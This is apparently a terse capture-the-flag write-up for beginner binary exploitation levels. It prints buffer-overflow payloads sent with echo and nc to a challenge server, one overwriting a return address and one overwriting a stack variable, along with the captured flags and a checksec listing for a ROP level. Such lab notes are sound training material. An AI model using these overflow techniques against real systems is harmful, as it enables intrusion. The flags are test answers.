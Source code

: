![./img/Untitled%20123.png](./img/Untitled%20123.png)



```
# 0x4006c6 = '\xc6\x06\x40\x00\x00\x00\x00\x00'
echo -e $'BBBBBBBBAAAAAAAABBBBBBBBAAAAAAAArbprbprb\xc6\x06\x40\x00\x00\x00\x00\x00' | nc 140.110.112.77 6126

Billy want to go home now.
Do you know the address of his house ?MyFirstCTF{r3tURn_t0_3h3rev3R_U_w4nT_tO_g0_XD}
```



## level 1 pass

不解釋

![./img/Untitled%20124.png](./img/Untitled%20124.png)

```
echo -n $'AAAABBBBAAAABBBBAAAABBBBAAAA\xef\xbe\xad\xde' | nc 140.110.112.77 6125

FLAG{xtnntfhzflpttvxvzzbfjfnxbjvrzxdfvzlvhpt}
MyFirstCTF{L0c41_vARiaBl3_0n_Th3_sT4cK?!}
```

## level 4 rop3-sean_Pwn-4

x64

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
